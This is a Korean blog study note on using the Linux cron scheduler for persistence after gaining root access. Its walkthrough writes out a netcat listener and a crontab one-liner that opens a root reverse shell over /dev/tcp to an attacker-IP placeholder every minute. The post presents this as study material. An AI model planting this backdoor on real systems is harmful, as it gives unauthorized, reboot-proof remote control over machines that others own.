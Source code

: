 ```yaml
---
layout: post
title: "cron 공부"
date: 2025-09-06 17:00:00 +0900
categories: [시스템 해킹]
---
```


### 1. 개요

지속성`Persistence`은 공격자가 시스템 재부팅 · 세션 종료 · 초기 침투에 사용된 취약점이 패치된 후에도 시스템에 대한 접근 권한을 계속 유지하는 기술이다. 권한을 획득한 것만큼이나 그 권한을 잃지 않는 것이 중요하며 리눅스 환경에서는 주기적으로 명령을 실행하는 `cron` 스케줄러가 지속성 확보를 위한 주요 수단으로 사용된다.

---

### 2. cron 기본

`cron`은 특정 시간에 지정된 작업을 자동으로 실행하는 리눅스의 데몬이다. 사용자는 `crontab` 파일을 수정하여 작업을 예약할 수 있다.

*   ***주요 경로:***
    *   `/etc/crontab`: 시스템 전체에 적용되는 cron 작업 파일. 사용자 계정을 지정하여 명령을 실행할 수 있다.
    *   `/var/spool/cron/crontabs/`: 사용자별 crontab 파일이 저장되는 디렉터리. `root` 사용자의 crontab은 여기에 위치한다.
*   ***형식:***
    ```
    # ┌───────────── 분 (0 - 59)
    # │ ┌───────────── 시 (0 - 23)
    # │ │ ┌───────────── 일 (1 - 31)
    # │ │ │ ┌───────────── 월 (1 - 12)
    # │ │ │ │ ┌───────────── 요일 (0 - 6)
    # │ │ │ │ │
    # * * * * * <사용자> <실행할 명령어>
    ```

---

### 3. 사용 예시: crontab을 이용한 리버스 쉘 연결

이전 게시글에서 `root` 권한을 획득한 공격자가 매 분마다 공격자 PC로 리버스 쉘을 연결하는 cron 작업을 등록하여 시스템에 대한 영구적인 백도어를 생성하는 상황이다.

#### ***1. 공격자 리스너 실행***
공격자 PC에서 `netcat`을 이용해 4444번 포트에서 연결을 대기한다.
```bash
nc -lvnp 4444
```

#### ***2. 대상 서버에 cron 작업 등록***
획득한 `root` 쉘에서 `root` 사용자의 crontab에 1분마다 리버스 쉘을 실행하는 작업을 추가한다. `crontab -e`를 사용하는 대신 `echo`와 파이프를 이용하여 비대화형(non-interactive) 방식으로 작업을 등록할 수 있다.
```bash
(crontab -l 2>/dev/null; echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/[Attacker IP]/4444 0>&1'") | crontab -
```
   ![CronShell](/assets/images/Cron_1.png)

#### ***3. 연결 수신 확인***
cron 작업이 등록되고 1분 이내에 공격자 PC의 `netcat` 리스너는 대상 서버로부터 들어오는 `root` 권한의 쉘 연결을 수신하게 된다.
   ![Cronauto](/assets/images/Cron_2.png)

이제 대상 서버가 재부팅되거나 다른 관리자가 악성 프로세스를 종료시키더라도 `cron` 데몬은 매 분마다 공격자에게 다시 쉘을 제공하므로 공격자는 시스템에 대한 통제권을 잃지 않게 된다.

<hr class="short-rule">